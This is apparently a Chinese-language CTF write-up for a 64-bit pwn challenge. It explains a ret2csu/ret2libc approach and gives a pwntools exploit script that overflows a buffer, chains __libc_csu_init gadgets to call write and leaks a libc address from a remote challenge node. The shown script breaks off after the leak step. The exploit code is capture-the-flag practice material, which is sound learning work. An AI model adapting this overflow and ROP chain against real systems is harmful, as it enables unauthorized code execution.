 #### 题目描述

***人在刚开始的时候，更容易被人利用***

岁数不大，你看着还真有点质感。

#### 解题思路

checksec 查看保护：

![image-20241216191834591](BestiCTF S1 Week14.assets/image-20241216191834591.png)

没啥特殊的。IDA 打开程序，没有直接后门，一眼 ret2libc，发现只有输出函数只有`write`可以用，明显是 ret2csu。

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"

p = remote("node6.anna.nssctf.cn", 22649)
elf = ELF("./pwn-ubuntu_20.04/src/attachment")
_libc = ELF('./pwn-ubuntu_20.04/src/libc.so.6')

start_address = elf.symbols['main']
ret_address = 0x4012B4
pop_rdi = 0x4012b3
csu_mov = 0x401290
csu_pop_rbx = 0x4012AA
system_offset = _libc.symbols['system']
str_bin_sh_offset = _libc.search(b'/bin/sh').__next__()
write_offset = _libc.symbols['write']

function_name = 'write'
plt_address = elf.plt['write']    #获取函数的plt表地址
got_address = elf.got[function_name]    #获取函数的got表地址
write_got_address = elf.got['write']
#获取_start函数的地址是为了方便一会返回到此处，进行第二次栈溢出。   

# 64位
context(arch="amd64",os="linux")
stack_len = 0x100 + 0x8

#获取got地址
#函数调用参数存在 RDI, RSI, RDX, RCX, R8 和 R9 寄存器
def csu(rbx, rbp, r12, r13, r14, r15, target_address):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r15 should be the function we want to call
    # rdi=edi=r12d  
    # rsi=r13
    # rdx=r14
    payload = p64(csu_pop_rbx) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15) + p64(csu_mov) + p64(0) * 7 + p64(target_address)
    return payload

payload = b'\x00'*stack_len + csu(0, 1, 1, got_address, 8, write_got_address, start_address)

p.sendline(payload)
p.recvuntil(b"Ok.\n")
write_addr = u64(p.recvline()[:8].ljust(8,b'\0'))
```